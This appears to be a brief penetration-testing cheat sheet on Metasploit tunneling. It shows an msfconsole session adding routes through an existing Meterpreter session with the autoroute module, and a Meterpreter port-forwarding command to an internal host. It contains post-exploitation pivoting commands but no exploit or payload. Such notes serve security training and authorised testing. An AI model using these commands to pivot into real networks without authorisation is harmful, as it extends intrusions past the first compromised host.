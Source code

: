 # Metasploit Tunneling
## Routing Traffic
### Meterpreter

```
[msf](Jobs:0 Agents:1) exploit(multi/handler) >> use post/multi/manage/autoroute
[msf](Jobs:0 Agents:1) post(multi/manage/autoroute) >> set session 1
session => 1
[msf](Jobs:0 Agents:1) post(multi/manage/autoroute) >> run

[!] SESSION may not be compatible with this module:
[!]  * incompatible session platform: linux
[*] Running module against 172.16.1.23
[*] Searching for subnets to autoroute.
[+] Route added to subnet 172.16.1.0/255.255.255.0 from host's routing table.
[*] Post module execution completed
[msf](Jobs:0 Agents:1) post(multi/manage/autoroute) >> 
```
- Create a route manually
- Deprecated, but still works (for now):
```
run autoroute -s 10.129.207.128/20
```
## Port Forwarding
### Meterpreter
Forward a port
```
portfwd add -l 5432 -p 5432 -r 10.129.207.128
```
